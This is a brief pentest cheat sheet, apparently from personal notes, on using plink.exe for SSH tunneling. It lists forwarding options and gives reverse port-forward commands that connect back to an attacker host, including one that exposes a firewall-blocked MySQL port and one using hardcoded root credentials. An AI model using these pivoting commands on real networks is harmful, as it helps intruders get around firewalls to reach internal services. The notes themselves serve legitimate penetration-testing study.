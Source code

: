 ```yaml
---
title: plink.exe
date: M02-12-2023
author: i4
---
```


## Tunneling
```
  -D [listen-IP:]listen-port
            Dynamic SOCKS-based port forwarding
  -L [listen-IP:]listen-port:host:port
            Forward local port to remote address
  -R [listen-IP:]listen-port:host:port
            Forward remote port to local address
```

### Service running on remote machine connect back to attacker
```
C:\> plink.exe -ssh -l [user] -pw [password] -R [listen-IP:]listen-port:[local-IP]:[Local-Port] 
```

#### Example
- MYSQL runs on windows host (3306/TCP)
- Firewall **blocks** 3306/TCP to any outside host
```
plink.exe -ssh -l attacker -pw password -R 3306:127.0.0.1:3306 [remote-IP]
```

This makes (3306/TCP) available over SSH to `[remote-ip]`

```
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
